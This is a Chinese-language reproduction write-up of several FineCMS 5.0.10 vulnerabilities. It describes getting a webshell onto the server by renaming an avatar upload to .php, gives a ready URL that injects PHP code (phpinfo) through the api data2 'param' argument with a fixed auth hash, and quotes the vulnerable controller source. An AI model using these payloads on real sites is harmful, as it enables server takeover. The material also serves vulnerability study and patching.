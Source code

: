 # Finecms 5.0.10多重漏洞

### 一、漏洞简介

### 二、漏洞影响

Finecms 5.0.10

### 三、复现过程

**1、任意文件上传**

用十六进制编辑器写一个有一句话的图片 去网站注册一个账号，然后到上传头像的地方。 抓包，把jepg的改成php发包。

![](images/15890259336150.png)


可以看到文件已经上传到到`/uploadfile/member/用户ID/0x0.php`

![](images/15890259445641.png)


**2、任意代码执行漏洞**

auth下面的分析的时候会说到怎么获取

浏览器输入：


```
http://url/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271
```

![](images/15890259640030.png)


这个漏洞的文件在/finecms/dayrui/controllers/Api.php的data2()


```php
public function data2() {
        $data = array();

        // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {
            // 解析数据
            $cache = '';
            $param = $this->input->get('param');
            if (isset($param['cache']) && $param['cache']) {
                $cache = md5(dr_array2string($param));
                $data = $this->get_cache_data($cache);
            }
            if (!$data) {

                // list数据查询
                $data = $this->template->list_tag($param);
                $data['code'] = $data['error'] ? 0 : 1;
                unset($data['sql'], $data['pages']);

                // 缓存数据
                $cache && $this->set_cache_data($cache, $data, $param['cache']);
            }
        }
```